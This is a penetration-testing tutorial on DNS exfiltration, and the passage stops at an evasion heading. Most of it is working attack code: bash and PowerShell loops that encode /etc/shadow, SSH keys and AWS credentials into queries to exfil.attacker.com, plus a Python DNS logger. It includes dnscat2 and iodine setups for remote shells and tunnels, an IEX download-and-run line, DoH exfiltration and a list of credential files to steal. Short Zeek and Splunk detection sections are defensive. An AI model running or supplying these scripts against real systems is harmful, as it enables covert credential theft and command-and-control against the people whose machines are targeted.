


# DNS Exfiltration

> **Difficulty:** Advanced | **Category:** Penetration Testing | **MITRE ATT&CK:** [T1048.001](https://attack.mitre.org/techniques/T1048/001/)

---

## 1. Introduction

**DNS exfiltration** is one of the stealthiest data exfiltration channels available to an attacker. It abuses the Domain Name System — a protocol so fundamental to network operation that it is permitted outbound on nearly every network on the planet, including heavily restricted corporate environments, hotel Wi-Fi captive portals, airport networks, and air-gapped-adjacent environments that still allow internet name resolution.

### Why DNS Is Ideal for Exfiltration

- **Always-open channel**: UDP port 53 outbound is almost universally allowed, even when HTTP/HTTPS is proxied and inspected.
- **Rarely monitored**: Most organizations log web traffic, email, and endpoint activity — but comprehensive DNS query logging is uncommon, especially for full subdomain capture.
- **No direct connection required**: The victim machine never connects directly to the attacker. All traffic flows through the recursive resolver infrastructure, blending in with legitimate traffic.
- **Protocol abuse, not exploitation**: No CVEs, no payloads in the traditional sense — just legitimate DNS queries.
- **Firewall-transparent**: Deep packet inspection rulesets typically allow DNS without content inspection.

> **Note:** The trade-off for all this stealth is **bandwidth**. DNS exfiltration is extremely slow compared to HTTP-based channels. Plan accordingly — it is best suited for small, high-value files (credentials, keys, configuration files) rather than bulk data.

### MITRE ATT&CK Mapping

| Field | Value |
|---|---|
| Technique | T1048 — Exfiltration Over Alternative Protocol |
| Sub-technique | T1048.001 — Exfiltration Over Symmetric Encrypted Non-C2 Protocol |
| Related | T1071.004 — Application Layer Protocol: DNS |
| Tactic | Exfiltration, Command and Control |
| Platforms | Linux, macOS, Windows |
| Data Sources | Network Traffic, DNS Records |

---

## 2. How DNS Exfiltration Works

At its core, DNS exfiltration encodes sensitive data as subdomains of an attacker-controlled domain and sends DNS resolution queries for those fake hostnames. The attacker's authoritative DNS server receives the queries, logs the subdomain labels, and can reconstruct the original data — without ever returning a meaningful DNS response.

### The Mechanism Step by Step

1. Attacker registers a domain (e.g., `attacker.com`) and points its NS records to their own authoritative server.
2. Victim machine encodes sensitive data (base32, hex, etc.) into DNS-safe label strings.
3. Victim issues DNS queries: `<encoded-chunk>.exfil.attacker.com`
4. The victim's OS sends the query to its configured recursive resolver (e.g., 8.8.8.8 or corporate DNS).
5. The recursive resolver walks the DNS hierarchy and eventually queries `attacker.com`'s authoritative server.
6. The attacker's server logs the full query (including the encoded subdomain) and returns any dummy answer.
7. The attacker assembles all logged subdomains in order and decodes the original data.

### Example Query

```
aGVsbG8gd29ybGQ.exfil.attacker.com
│                │
│                └── attacker-controlled domain
└── base64("hello world") = aGVsbG8gd29ybGQ
```

> **Warning:** DNS is case-insensitive and many resolvers normalize queries to lowercase. Always use **base32** (which uses only A-Z and 2-7, easily lowercased) rather than standard base64 (which uses `+`, `/`, and `=` that are illegal in DNS labels).

### Data Flow Diagram



---

## 3. DNS Label Constraints

Understanding the protocol limits is essential for building reliable exfiltration payloads.

| Constraint | Value | Notes |
|---|---|---|
| Maximum label length | 63 characters | Each dot-separated segment |
| Maximum total FQDN | 253 characters | Including all dots |
| Labels available for data | ~3 labels | Remaining after base domain |
| Max data per query (base32) | ~180 raw chars encoded | 3 × 63 = 189, minus overhead |
| Effective raw data per query | ~100–120 bytes | After encoding expansion (~1.6×) |
| Safe query rate | 1–2 queries/second | Higher rates trigger rate limiting |
| Practical throughput | ~50–120 bytes/second | Raw data |

### Chunk Size Calculation

```
Base domain: exfil.attacker.com (17 chars + root dot)
Remaining FQDN budget: 253 - 1 (root) - 17 = 235 chars
With 3 labels: floor(235 / 4) * 3 ≈ 3 labels × ~58 chars each (safe)
Base32 expansion: 5 raw bytes → 8 encoded chars
Per query: (3 × 58) / 8 * 5 = ~108 raw bytes
```

> **Note:** Using a shorter base domain directly increases your per-query payload. `x.io` vs `exfiltration.attacker.com` makes a measurable difference at scale.

---

## 4. Encoding Data for DNS Transport

### Base32 (Recommended)

Base32 uses only uppercase A–Z and digits 2–7, making it fully DNS-safe after lowercasing. It is the standard for DNS exfiltration tools.

```bash
# Encode a string
echo -n "secret data" | base32
# ONXW2ZJAOZSXG43UMF2GS5A=

# Decode
echo "ONXW2ZJAOZSXG43UMF2GS5A=" | base32 -d

# DNS-safe: lowercase and strip padding
echo -n "secret data" | base32 | tr '[:upper:]' '[:lower:]' | tr -d '='
# onxw2zjaozsxg43umf2gs5a

# Encode a file and split into 50-char DNS labels
base32 /etc/hostname | tr -d '=\n' | tr '[:upper:]' '[:lower:]' | fold -w 50
```

### Hex Encoding

```bash
# Encode (output is lowercase hex, DNS-safe)
echo -n "secret data" | xxd -p | tr -d '\n'
# 736563726574206461746100 (no padding issues)

# Decode
echo "736563726574206461746100" | xxd -r -p

# Encode a file
xxd -p /etc/passwd | tr -d '\n' | fold -w 56
```

### DNS-Safe Base64

Standard base64 contains `+`, `/`, and `=` which are **illegal** in DNS labels. Use the URL-safe variant:

```bash
# Encode with URL-safe base64 (replace + with -, / with _)
echo -n "secret data" | base64 | tr '+/' '-_' | tr -d '='

# Decode
echo "c2VjcmV0IGRhdGE" | tr '-_' '+/' | base64 -d
```

### Comparison Table

| Encoding | Expansion Ratio | DNS Safe | Padding | Recommendation |
|---|---|---|---|---|
| Base32 | 1.6× (8/5) | ✅ Yes (after lowercase) | Strip `=` | ✅ **Best** |
| Hex | 2× | ✅ Yes (0-9, a-f only) | None needed | ✅ Good, low density |
| Base64 (standard) | 1.33× | ❌ No (`+`,`/`,`=`) | Strip `=` | ❌ Avoid |
| Base64 (URL-safe) | 1.33× | ✅ After stripping `=` | Strip `=` | ⚠️ Tool-dependent |

---

## 5. Manual DNS Exfiltration

Manual exfiltration using standard Unix tools requires no special software on the victim — only `dig`, `nslookup`, or `host`, all of which are present on most Linux/macOS systems.

### Basic File Exfiltration with `dig`

```bash
#!/bin/bash
# dns_exfil.sh — Manual DNS exfiltration
# Usage: ./dns_exfil.sh /etc/passwd exfil.attacker.com

FILE="${1:-/etc/passwd}"
DOMAIN="${2:-exfil.attacker.com}"
CHUNK_SIZE=50
SEQ=0

# Encode file and split into chunks
base32 "$FILE" | tr -d '=\n' | tr '[:upper:]' '[:lower:]' | fold -w "$CHUNK_SIZE" | \
while IFS= read -r chunk; do
    # Prefix with sequence number to allow ordered reassembly
    query="${SEQ}.${chunk}.${DOMAIN}"
    dig +short +time=2 +tries=1 "$query" > /dev/null 2>&1
    SEQ=$((SEQ + 1))
    sleep 0.8   # rate-limit to avoid resolver throttling
done

# Signal end of file
dig +short "EOF.${DOMAIN}" > /dev/null 2>&1
echo "[*] Exfiltration complete. $SEQ chunks sent."
```

### Using `nslookup` (Windows-compatible syntax)

```bash
# nslookup variant — useful when dig is not available
cat /etc/shadow | base32 | tr -d '=\n' | tr '[:upper:]' '[:lower:]' | fold -w 40 | \
while IFS= read -r chunk; do
    nslookup "${chunk}.exfil.attacker.com" 8.8.8.8 > /dev/null 2>&1
    sleep 0.5
done
```

### Hex-Encoded Exfil (No base32 Required)

```bash
# Hex encoding — only requires xxd (or od)
xxd -p /etc/passwd | tr -d '\n' | fold -w 56 | \
while IFS= read -r chunk; do
    dig "${chunk}.exfil.attacker.com" @attacker.com > /dev/null 2>&1
    sleep 1
done
```

### Exfiltrate Over TCP Port 53 (Firewall Bypass)

```bash
# Some networks block UDP/53 but allow TCP/53
cat /etc/passwd | base32 | tr -d '=\n' | tr '[:upper:]' '[:lower:]' | fold -w 50 | \
while IFS= read -r chunk; do
    dig +tcp +short "${chunk}.exfil.attacker.com" @attacker.com > /dev/null 2>&1
    sleep 1
done
```

### Windows PowerShell Variant

```powershell
# PowerShell manual DNS exfil (no external tools needed)
$file    = "C:\Users\user\Documents\sensitive.txt"
$domain  = "exfil.attacker.com"
$content = [System.IO.File]::ReadAllBytes($file)
$encoded = [Convert]::ToBase64String($content).Replace('+','-').Replace('/','_').Replace('=','')

# Split into 50-char chunks and query
for ($i = 0; $i -lt $encoded.Length; $i += 50) {
    $chunk = $encoded.Substring($i, [Math]::Min(50, $encoded.Length - $i))
    $query = "$i.$chunk.$domain"
    try { [System.Net.Dns]::GetHostAddresses($query) } catch {}
    Start-Sleep -Milliseconds 800
}

# Send EOF marker
try { [System.Net.Dns]::GetHostAddresses("eof.$domain") } catch {}
Write-Host "[*] Done"
```

### Attacker Side — Capture with tcpdump

```bash
# Capture all DNS on the NS server interface
tcpdump -i eth0 udp port 53 -w dns_capture.pcap

# Live grep for exfil subdomain labels
tcpdump -i eth0 'udp port 53' -A -l | grep --line-buffered "exfil"

# Extract only the query names from pcap
tcpdump -r dns_capture.pcap -nn 'udp port 53' | \
    grep -oP '(?<=A\? )\S+' | grep "exfil.attacker.com"

# Reconstruct data: sort by sequence, decode base32
grep "exfil.attacker.com" dns_capture.txt | \
    grep -oP '^\d+\.\K[a-z2-7]+(?=\.exfil)' | \
    sort -t. -k1 -n | \
    tr -d '\n' | tr '[:lower:]' '[:upper:]' | \
    base32 -d > reconstructed_file
```

---

## 6. Setting Up Attacker DNS Infrastructure

### Domain Delegation

Register any domain (e.g., via Namecheap, Porkbun) and create NS records pointing to your server:

```
; Zone file for attacker.com
attacker.com.         3600  IN  NS  ns1.attacker.com.
ns1.attacker.com.     3600  IN  A   203.0.113.10   ; your VPS IP
exfil.attacker.com.   3600  IN  NS  ns1.attacker.com.
```

> **Note:** The `exfil.attacker.com` delegation ensures all queries for `*.exfil.attacker.com` route directly to your server, bypassing any caching issues with the parent zone.

### Python Authoritative DNS Logger

```python
#!/usr/bin/env python3
# dns_logger.py — Authoritative DNS server that logs exfil data
# Requires: pip install dnslib

from dnslib.server import DNSServer, BaseResolver
from dnslib import RR, QTYPE, A, DNSRecord
import base64
import datetime
import sys

EXFIL_DOMAIN = "exfil.attacker.com"
LOG_FILE     = "exfil_log.txt"
DUMMY_IP     = "10.10.10.1"

class ExfilResolver(BaseResolver):
    def resolve(self, request, handler):
        qname = str(request.q.qname).rstrip('.')
        timestamp = datetime.datetime.utcnow().isoformat()

        if EXFIL_DOMAIN in qname:
            # Strip the base domain to get the data labels
            data_part = qname.replace(f".{EXFIL_DOMAIN}", "").replace(EXFIL_DOMAIN, "")
            labels    = data_part.split(".")

            # Expect format: <seq>.<data> or just <data>
            raw_data = ""
            seq      = "?"
            if len(labels) >= 2 and labels[0].isdigit():
                seq      = labels[0]
                raw_data = "".join(labels[1:])
            else:
                raw_data = "".join(labels)

            try:
                # Pad and decode base32
                padded  = raw_data.upper() + "=" * ((8 - len(raw_data) % 8) % 8)
                decoded = base64.b32decode(padded, casefold=True)
                text    = decoded.decode("utf-8", errors="replace")
                line    = f"[{timestamp}] seq={seq} raw={raw_data} decoded={text}\n"
            except Exception as e:
                line = f"[{timestamp}] seq={seq} raw={raw_data} decode_error={e}\n"

            with open(LOG_FILE, "a") as f:
                f.write(line)
            print(line.strip())

        reply = request.reply()
        reply.add_answer(RR(request.q.qname, QTYPE.A, rdata=A(DUMMY_IP), ttl=0))
        return reply

if __name__ == "__main__":
    port = int(sys.argv[1]) if len(sys.argv) > 1 else 53
    print(f"[*] DNS exfil logger listening on UDP/TCP port {port}")
    print(f"[*] Logging to {LOG_FILE}")
    server = DNSServer(ExfilResolver(), port=port, address="0.0.0.0", tcp=False)
    server.start()
```

### Log All Queries with dnsmasq

```ini
# /etc/dnsmasq.conf — minimal exfil-capture config
# Log all queries with full detail
log-queries=extra
log-facility=/var/log/dnsmasq-exfil.log

# Don't forward exfil subdomain — handle it locally
address=/exfil.attacker.com/10.10.10.1

# Disable negative caching
no-negcache
```

```bash
# Tail and extract subdomain data in real time
tail -f /var/log/dnsmasq-exfil.log | grep "exfil.attacker.com" | \
    awk '{print $6}' | \
    grep -oP '^[a-z2-7]+(?=\.exfil)'
```

### Using Wireshark/tshark for Server-Side Capture

```bash
# Capture DNS and decode display filters
tshark -i eth0 -f "udp port 53" -T fields \
    -e frame.time \
    -e ip.src \
    -e dns.qry.name \
    2>/dev/null | grep "exfil.attacker.com"

# Write to file and process
tshark -i eth0 -f "udp port 53" -w /tmp/dns.pcap
tshark -r /tmp/dns.pcap -Y "dns.qry.name contains \"exfil\"" \
    -T fields -e dns.qry.name
```

---

## 7. dnscat2 — Full Walkthrough

**dnscat2** is a purpose-built tool that creates an encrypted, multiplexed command-and-control channel over DNS. It supports interactive shells, file transfers, and port forwarding — all over DNS queries.

> **Note:** dnscat2 uses TXT, MX, CNAME, and A record queries interchangeably, making traffic patterns harder to signature-match than single-record-type tools.

### Server Setup (Attacker)

```bash
# Install dependencies (Debian/Ubuntu)
sudo apt install ruby ruby-dev build-essential
gem install bundler

# Clone and install
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server
bundle install

# Start server with your authoritative domain
ruby dnscat2.rb --dns "domain=exfil.attacker.com" --secret=S3cur3P@ss

# Alternative: direct IP mode (no domain delegation required)
ruby dnscat2.rb --dns "host=203.0.113.10,port=5353" --secret=S3cur3P@ss

# With verbose output for debugging
ruby dnscat2.rb --dns "domain=exfil.attacker.com" --secret=S3cur3P@ss -e error
```

### Client Setup (Victim Linux)

```bash
# Compile from source (no root needed to compile)
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/client
make

# Connect using domain (preferred — uses real DNS path)
./dnscat --dns "domain=exfil.attacker.com" --secret=S3cur3P@ss

# Connect using direct IP (bypasses resolver, requires reachable IP)
./dnscat --dns "host=203.0.113.10,port=5353" --secret=S3cur3P@ss

# Run in background
nohup ./dnscat --dns "domain=exfil.attacker.com" --secret=S3cur3P@ss &
```

### Client Setup (Victim Windows — PowerShell)

```powershell
# Download and execute PowerShell dnscat2 client
# (From a previously staged location — never from live internet in real engagements)
IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/Invoke-dnscat2.ps1')
Invoke-dnscat2 -Domain exfil.attacker.com -Secret S3cur3P@ss -Exec cmd

# Or from disk
Import-Module .\Invoke-dnscat2.ps1
Invoke-dnscat2 -Domain exfil.attacker.com -Secret S3cur3P@ss
```

### dnscat2 Server Command Reference

```
# Session management
dnscat2> sessions                        # list all active sessions
dnscat2> session -i 1                   # interact with session 1
dnscat2> kill 1                         # terminate session 1

# Within a session
dnscat2 [session 1]> shell              # open interactive shell
dnscat2 [session 1]> exec cmd.exe       # Windows shell
dnscat2 [session 1]> ping               # latency check
dnscat2 [session 1]> suspend            # background (Ctrl+Z also works)

# File transfer
dnscat2 [session 1]> download /etc/passwd /tmp/passwd_exfil
dnscat2 [session 1]> download /root/.ssh/id_rsa /tmp/key_exfil
dnscat2 [session 1]> upload /tmp/implant.elf /tmp/implant.elf

# Port forwarding (pivot)
dnscat2 [session 1]> listen 127.0.0.1:8080 10.10.10.5:80
# Now curl http://127.0.0.1:8080 on attacker machine reaches internal 10.10.10.5:80
```

### dnscat2 Protocol Internals

| Field | Size | Description |
|---|---|---|
| Packet ID | 2 bytes | Unique per packet |
| Message type | 1 byte | SYN / MSG / FIN / ENC |
| Session ID | 2 bytes | Identifies the channel |
| Sequence num | 2 bytes | For ordering |
| Acknowledgement | 2 bytes | For reliable delivery |
| Data | Variable | Encoded payload |

---

## 8. iodine — Full IP-over-DNS Tunnel

**iodine** creates a full IP tunnel over DNS, allowing any TCP/UDP traffic to traverse a DNS channel. Unlike dnscat2 (application-layer C2), iodine creates a virtual network interface (`tun0`) — making it usable as a generic network tunnel.

> **Warning:** iodine requires **root privileges** on both ends. It also consumes significantly more DNS bandwidth than dnscat2 due to IP overhead.

### Server Setup

```bash
# Install
sudo apt install iodine

# Start server — creates tun0 with /28 subnet
# Syntax: iodined [options] <tunnel-subnet> <dns-domain>
sudo iodined -f \
             -c \
             -P Tunn3lP@ss \
             -n 203.0.113.10 \    # server's public IP (returned to client)
             10.0.0.1/28 \        # tunnel subnet (server takes .1)
             tunnel.attacker.com  # subdomain delegated to this NS

# -f = foreground
# -c = disable client IP check (useful behind NAT/CDN)
# -n = set public IP for client to use
```

### Client Setup (Victim)

```bash
# Install
sudo apt install iodine   # or: yum install iodine

# Connect — creates tun0 with 10.0.0.2
sudo iodine -f \
            -P Tunn3lP@ss \
            tunnel.attacker.com

# Verify tunnel is up
ip addr show tun0
ping 10.0.0.1   # ping the server's tunnel IP

# Route traffic through the DNS tunnel
# Example 1: SSH SOCKS proxy
ssh -D 9050 -N root@10.0.0.1
# Now all traffic via SOCKS proxy goes through DNS

# Example 2: Direct service access
curl --proxy socks5://127.0.0.1:9050 http://internal.corp.local/api/secret

# Example 3: SSH forward to internal service
ssh -L 5432:db.internal:5432 root@10.0.0.1 -N
# PostgreSQL on db.internal now accessible at localhost:5432
```

### iodine DNS Record Types (Ordered by Efficiency)

| Record Type | Capacity | Notes |
|---|---|---|
| NULL | ~512 bytes | Highest — but often blocked |
| TXT | ~255 bytes per record | Most common, good throughput |
| SRV | Limited | Less common, sometimes allowed |
| MX | Limited | Works through most resolvers |
| CNAME | ~253 chars | Reliable across resolvers |
| A | 4 bytes | Lowest — last resort |

```bash
# Force iodine to use a specific record type
sudo iodine -f -P password -T TXT tunnel.attacker.com    # TXT records
sudo iodine -f -P password -T CNAME tunnel.attacker.com  # CNAME records
sudo iodine -f -P password -T MX tunnel.attacker.com     # MX records

# Test which record types work through a resolver
iodine -f -P password -T NULL tunnel.attacker.com     # try NULL first
```

---

## 9. Data Rate Limitations

### Throughput Comparison Table

| Method | Query Rate | Bytes/Query | Effective Throughput | Best Use Case |
|---|---|---|---|---|
| Manual `dig` | 1–2 q/s | ~60 bytes | ~60–120 B/s | Simple file exfil, no tools |
| Manual (no sleep) | 10–50 q/s | ~60 bytes | ~0.5–3 KB/s | Fast LAN, risk of detection |
| dnscat2 | 5–15 q/s | ~100 bytes | ~5–10 KB/s | C2 + file transfer |
| iodine (NULL) | Variable | ~512 bytes | ~20–50 KB/s | Full tunnel, TCP traffic |
| iodine (TXT) | Variable | ~255 bytes | ~10–30 KB/s | General tunnel |
| iodine (CNAME) | Variable | ~60 bytes | ~5–15 KB/s | Conservative, stealthy |

### Transfer Time Estimates

```
Assume 5 KB/s effective throughput (dnscat2 typical):

 File Size │  Transfer Time
──────────┼──────────────────
   10 KB   │  ~2 seconds
   50 KB   │  ~10 seconds
  100 KB   │  ~20 seconds
    1 MB   │  ~3.4 minutes
   10 MB   │  ~34 minutes
  100 MB   │  ~5.7 hours     ← impractical
    1 GB   │  ~57 hours      ← never do this
```

> **Note:** For files larger than ~5 MB, consider compressing first (`gzip`, `xz`) or using a faster exfil channel if available. DNS exfiltration is best reserved for small, high-value artifacts.

### Compress Before Exfil

```bash
# Compress then exfil — can dramatically reduce size
gzip -c /etc/passwd | base32 | tr -d '=\n' | tr '[:upper:]' '[:lower:]' | fold -w 50 | \
while IFS= read -r chunk; do
    dig +short "${chunk}.exfil.attacker.com" > /dev/null 2>&1
    sleep 0.8
done

# Even better: tar + gzip multiple files
tar czf - /etc/passwd /etc/shadow /root/.ssh/ 2>/dev/null | \
    base32 | tr -d '=\n' | tr '[:upper:]' '[:lower:]' | fold -w 50 | \
while IFS= read -r chunk; do
    dig +short "${chunk}.exfil.attacker.com" > /dev/null 2>&1
    sleep 0.8
done
```

---

## 10. Firewall Bypass Capabilities

### Why DNS Gets Through

Most enterprise firewalls apply policy in this order:



### Restricted Network Scenarios

| Scenario | Standard DNS | Technique |
|---|---|---|
| Open corporate network | ✅ UDP/53 works | `dig`, dnscat2 direct |
| Forced internal resolver | ⚠️ Queries logged | Still works — exfil traverses resolver |
| UDP/53 blocked | ❌ | TCP port 53: `dig +tcp` |
| All DNS blocked | ❌ | DNS-over-HTTPS (port 443) |
| Deep packet inspection | ⚠️ | Slow query rate, spread timing |
| Split DNS only | ⚠️ | Internal resolver forwards external |

### TCP Port 53 Fallback

```bash
# Force TCP for DNS (works when UDP/53 is blocked)
dig +tcp secret.exfil.attacker.com @attacker.com

# dnscat2 TCP mode
./dnscat --dns "host=203.0.113.10,port=53" --tcp --secret=pass

# iodine TCP
sudo iodine -f -P pass -T TXT tunnel.attacker.com
# iodine falls back to TCP automatically when UDP fails
```

### DNS-over-HTTPS (DoH) Exfiltration

When even DNS is monitored, DoH bypasses DNS monitoring by sending DNS queries over HTTPS to a DoH provider (port 443, TLS-encrypted, looks like web traffic):

```bash
# Query via DoH using Google's API (port 443, looks like HTTPS)
curl -s -H "accept: application/dns-json" \
    "https://8.8.8.8/resolve?name=ONXW2ZJA.exfil.attacker.com&type=A"

# Cloudflare DoH
curl -s -H "accept: application/dns-json" \
    "https://1.1.1.1/dns-query?name=ONXW2ZJA.exfil.attacker.com&type=TXT"

# Script using DoH
cat /etc/passwd | base32 | tr -d '=\n' | tr '[:upper:]' '[:lower:]' | fold -w 50 | \
while IFS= read -r chunk; do
    curl -s "https://8.8.8.8/resolve?name=${chunk}.exfil.attacker.com&type=A" \
        -H "accept: application/dns-json" > /dev/null
    sleep 1
done
```

> **Warning:** Using public DoH resolvers (8.8.8.8, 1.1.1.1) for exfiltration is visible to those providers. For operational security, set up your own DoH endpoint or use `dns-over-https` with your own resolver.

---

## 11. Reconnaissance: What to Exfiltrate

High-value targets for DNS exfiltration (small, sensitive):

```bash
# Priority exfil targets — all small files
/etc/passwd                       # user list
/etc/shadow                       # password hashes
/root/.ssh/id_rsa                 # SSH private key
/home/*/.ssh/id_rsa               # user SSH keys
~/.aws/credentials                # AWS keys
~/.aws/config
/root/.bash_history               # command history
~/.bashrc ~/.profile              # environment (may have secrets)
/etc/hosts                        # internal network map
/etc/resolv.conf                  # DNS servers
/proc/net/arp                     # ARP cache (LAN hosts)
/proc/net/tcp                     # open TCP connections

# Dump environment variables (in-memory secrets)
env | sort

# Active network connections
ss -tnp
netstat -tnp

# Quick credential search
find / -name "*.env" -o -name "*.conf" -o -name "id_rsa" 2>/dev/null | head -20

# AWS metadata (on EC2 instances)
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

---

## 12. Detection by Defenders

Understanding how defenders detect DNS exfiltration helps penetration testers model detection risk and evasion.

### Detection Indicators

| Indicator | Normal Baseline | Exfiltration Signature |
|---|---|---|
| DNS query volume | 100–1000 queries/day/host | Thousands per hour |
| Subdomain label length | 5–20 chars average | 40–63 chars (max label) |
| Subdomain entropy | 1.5–2.5 bits/char | 3.5–5.0 bits/char (random-looking) |
| Unique FQDNs per domain | Few per session | Hundreds to thousands |
| Query concentration | Spread across many domains | Many queries to single domain |
| NXDomain ratio | Low | High (each chunk is unique, won't resolve again) |
| DNS response size | Variable | Uniform small (dummy answers) |
| Query timing | Bursty, human-driven | Periodic, programmatic |

### Zeek/Bro Detection Script Concept

```zeek
# dns_exfil_detect.zeek
event dns_request(c: connection, msg: dns_msg, query: string, qtype: count, qclass: count) {
    local labels = split_string(query, /\./);
    if (|labels| > 0) {
        local first_label = labels[0];
        # Flag labels longer than 30 chars (likely encoded data)
        if (|first_label| > 30) {
            NOTICE([$note=DNS_Exfil_Suspected,
                    $conn=c,
                    $msg=fmt("Long subdomain label: %s (len=%d)", query, |first_label|),
                    $identifier=cat(c$id$orig_h)]);
        }
    }
}
```

### SIEM Detection Query (Splunk SPL)

```splunk
index=dns sourcetype=dns
| eval subdomain=mvindex(split(query,"."),0)
| eval label_len=len(subdomain)
| where label_len > 30
| stats count by src_ip, query, label_len
| where count > 50
| sort -count
| table src_ip, query, label_len, count
```

### Detection Tools

| Tool | Type | Capability |
|---|---|---|
| **Zeek (Bro)** | Open source | Deep DNS analysis, scripting |
| **Suricata** | Open source | Signature + anomaly detection |
| **Splunk** | Commercial | Log aggregation + analytics |
| **Infoblox BloxOne** | Commercial | DNS threat intelligence |
| **Cisco Umbrella** | Commercial | DNS firewall + threat intel |
| **Palo Alto DNS Security** | Commercial | ML-based DNS anomaly detection |
| **Pi-hole** (+ logging) | Open source | Domain blocklisting |

---

## 13. Defenses Against DNS Exfiltration

> **Note:** This section is included for completeness and scope awareness. Understanding defenses helps penetration testers assess detection risk and provide better remediation advice in reports.

### Technical Controls

```
1. DNS Logging
   ├── Log ALL outbound DNS queries (full FQDN, not just domain)
   ├── Retain logs for minimum 90 days
   └── Forward to SIEM for correlation

2. DNS Firewall / Resolver Control
   ├── Force all hosts to use internal resolver (block port 53 to external IPs)
   ├── Block DNS-over-HTTPS to known DoH providers (8.8.8.8, 1.1.1.1, 9.9.9.9)
   └── Block DNS-over-TLS (port 853)

3. Anomaly Detection
   ├── Alert: >1000 queries/hour from single host
   ├── Alert: subdomain label length > 30 chars
   ├── Alert: subdomain entropy > 3.5 bits/char
   └── Alert: >100 unique FQDNs under single second-level domain

4. Threat Intelligence
   ├── Subscribe to DNS threat intel feeds (dnscat2 C2 domains)
   ├── Block known tunneling domains
   └── Sinkhole suspicious domains to internal analyst server

5. DNS Response Policy Zones (RPZ)
   └── Block NXDomain storm by rate-limiting per source IP
```

### Testing Your Own Defenses

```bash
# Generate test exfil traffic to verify detection is working
# (On authorized test network ONLY)
for i in $(seq 1 200); do
    FAKE=$(cat /dev/urandom | tr -dc 'a-z2-7' | fold -w 40 | head -1)
    dig "${FAKE}.exfil-test.internal" > /dev/null 2>&1
    sleep 0.1
done
# Verify SIEM alert fires within expected time window
```

---

## 14. DNS Exfiltration Flow — Full Mermaid Diagram

```mermaid
flowchart TD
    A[🗄️ Victim Host\nHas sensitive data] --> B[Step 1: Read target file\ncat /etc/passwd]
    B --> C[Step 2: Compress\ngzip -c]
    C --> D[Step 3: Encode\nbase32 | lowercase | strip padding]
    D --> E[Step 4: Chunk\nfold -w 50]
    E --> F[Step 5: Prepend sequence number\n001.chunk002.exfil.attacker.com]
    F --> G[Step 6: Send DNS query\ndig +short chunk.exfil.attacker.com]
    G --> H{Firewall}
    H -- UDP 53 allowed --> I[Corporate Recursive Resolver\ne.g. 10.0.0.1]
    H -- UDP 53 blocked --> J[Try TCP/53\ndig +tcp]
    H -- DNS blocked entirely --> K[DNS-over-HTTPS\ncurl https://8.8.8.8/resolve?...]
    I --> L[Root / TLD DNS Servers\nPublic Internet]
    J --> L
    K --> L
    L --> M[Attacker Authoritative NS\nns1.attacker.com:53]
    M --> N[Log subdomain label\nexfil_log.txt]
    N --> O[Return dummy A record\n10.10.10.1]
    O --> I
    I --> G

    P[🔓 Attacker Workstation] --> Q[Sort chunks by sequence]
    N --> Q
    Q --> R[Concatenate encoded data]
    R --> S[base32 -d | gunzip]
    S --> T[✅ Reconstructed /etc/passwd]

    style A fill:#8b0000,color:#fff
    style T fill:#2d7a2d,color:#fff
    style M fill:#1a3a5c,color:#fff
    style H fill:#555,color:#fff
```

---

## 15. Evasion Techniques

### Slow and Low

```bash
# Very slow exfil — 1 query every 5-10 seconds
# Avoids volumetric detection thresholds
